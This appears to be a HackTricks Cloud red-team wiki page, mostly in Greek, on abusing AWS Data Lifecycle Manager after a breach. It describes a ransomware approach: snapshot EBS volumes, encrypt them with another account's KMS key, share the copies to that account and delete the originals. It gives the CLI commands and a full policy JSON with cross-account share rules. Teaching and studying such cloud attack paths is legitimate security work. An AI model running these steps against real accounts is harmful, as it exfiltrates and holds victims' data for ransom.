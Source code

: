 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Μια επίθεση ransomware μπορεί να εκτελεστεί κρυπτογραφώντας όσο το δυνατόν περισσότερους EBS όγκους και στη συνέχεια διαγράφοντας τις τρέχουσες EC2 περιπτώσεις, EBS όγκους και στιγμιότυπα. Για να αυτοματοποιηθεί αυτή η κακόβουλη δραστηριότητα, μπορεί κανείς να χρησιμοποιήσει το Amazon DLM, κρυπτογραφώντας τα στιγμιότυπα με ένα KMS κλειδί από άλλο AWS λογαριασμό και μεταφέροντας τα κρυπτογραφημένα στιγμιότυπα σε διαφορετικό λογαριασμό. Εναλλακτικά, μπορεί να μεταφέρει στιγμιότυπα χωρίς κρυπτογράφηση σε έναν λογαριασμό που διαχειρίζεται και στη συνέχεια να τα κρυπτογραφήσει εκεί. Αν και δεν είναι απλό να κρυπτογραφήσει κανείς υπάρχοντες EBS όγκους ή στιγμιότυπα απευθείας, είναι δυνατόν να το κάνει δημιουργώντας έναν νέο όγκο ή στιγμιότυπο.

Αρχικά, θα χρησιμοποιήσει μια εντολή για να συγκεντρώσει πληροφορίες σχετικά με τους όγκους, όπως το ID της περιπτώσης, το ID του όγκου, την κατάσταση κρυπτογράφησης, την κατάσταση προσάρτησης και τον τύπο του όγκου.

`aws ec2 describe-volumes`

Δεύτερον, θα δημιουργήσει την πολιτική κύκλου ζωής. Αυτή η εντολή χρησιμοποιεί το DLM API για να ρυθμίσει μια πολιτική κύκλου ζωής που αυτόματα λαμβάνει καθημερινά στιγμιότυπα των καθορισμένων όγκων σε μια καθορισμένη ώρα. Επίσης, εφαρμόζει συγκεκριμένες ετικέτες στα στιγμιότυπα και αντιγράφει ετικέτες από τους όγκους στα στιγμιότυπα. Το αρχείο policyDetails.json περιλαμβάνει τις λεπτομέρειες της πολιτικής κύκλου ζωής, όπως οι στοχευμένες ετικέτες, το πρόγραμμα, το ARN του προαιρετικού KMS κλειδιού για κρυπτογράφηση και τον στοχευμένο λογαριασμό για κοινή χρήση στιγμιότυπων, ο οποίος θα καταγραφεί στα αρχεία CloudTrail του θύματος.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Ένα πρότυπο για το έγγραφο πολιτικής μπορεί να δει εδώ:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
